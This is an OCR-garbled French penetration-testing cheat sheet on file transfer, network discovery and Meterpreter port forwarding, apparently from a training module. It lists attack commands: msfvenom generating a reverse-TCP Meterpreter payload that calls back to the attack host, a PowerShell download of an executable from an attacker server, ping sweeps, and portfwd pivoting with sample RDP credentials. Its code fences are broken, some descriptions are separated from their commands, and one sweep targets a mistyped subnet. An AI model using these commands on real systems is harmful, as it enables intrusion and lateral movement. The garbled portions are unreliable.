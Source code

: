 ```shell
```shell
### Utilise Python3 pour démarrer un serveur HTTP simple écoutant sur le port 8123. Peut être utilisé pour récupérer des fichiers depuis un hôte.
```bash
`python3 -m http.server 8123`
```shell
### Commande PowerShell utilisée pour télécharger un fichier appelé backupscript.exe depuis un serveur web (172.16.5.129:8123) puis enregistrer le fichier à l'emplacement spécifié après -OutFile.
```bash
`Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"`
```shell
### Utilise msfveom pour générer un payload Linux Meterpreter reverse TCP qui rappelle l'IP spécifiée après LHOST= sur le port 8080 (LPORT=8080). Le payload prend la forme d'un fichier exécutable elf appelé backupjob.
```bash
`msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<AdresseIPdHôteAttaque -f elf -o backupjob LPORT=8080`
```shell
### Utilise le protocole de copie sécurisée pour transférer un répertoire entier et tout son contenu vers une cible spécifiée.
```bash
`scp -r rpivot ubuntu@<AdresseIPDuCible>`
```shell
## Découverte de Réseau

### grep "bytes from" &) ;done
```bash
`for i in {1..254} ;do (ping -c 1 172.16.5.$i \
```shell
### find "Reply"
```bash
`for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 \
```shell
### % {"172.16.5.$($_): $(Test-Connection -count 1 -comp 172.15.5.$($_) -quiet)"}
```bash
`1..254 \
```shell
### Commande Metasploit qui exécute un module de ping sweep contre le segment réseau spécifié (RHOSTS=172.16.5.0/23).
```bash
`msf6> run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23`
```shell
## Port Forwarding avec Meterpreter

### Commande Meterpreter utilisée pour afficher les fonctionnalités de la commande portfwd.
```bash
`meterpreter > help portfwd`
```shell
### Commande portfwd basée sur Meterpreter qui ajoute une règle de transfert à la session Meterpreter actuelle. Cette règle transfère le trafic réseau sur le port 3300 de la machine locale vers le port 3389 (RDP) sur la cible.
```bash
`meterpreter > portfwd add -l 3300 -p 3389 -r <AdresseIPduCible>`
```shell
### Utilise xfreerdp pour se connecter à un hôte distant via localhost:3300 en utilisant un ensemble d'identifiants. Des règles de redirection de port doivent être en place pour que cela fonctionne correctement.
```bash
`xfreerdp /v:localhost:3300 /u:victor /p:pass@123`
```shell
### Commande portfwd basée sur Meterpreter qui ajoute une règle de transfert qui dirige le trafic entrant sur le port 8081 vers le port 1234 écoutant sur l'adresse IP de l'hôte d'attaque.
```bash
`meterpreter > portfwd add -R -l 8081 -p 1234 -L <AdresseIPdHôteAttaque>`
```shell
### Commande basée sur Meterpreter utilisée pour exécuter la session metepreter sélectionnée en arrière-plan. Similaire à la mise en arrière-plan d'un processus sous Linux.
```bash
```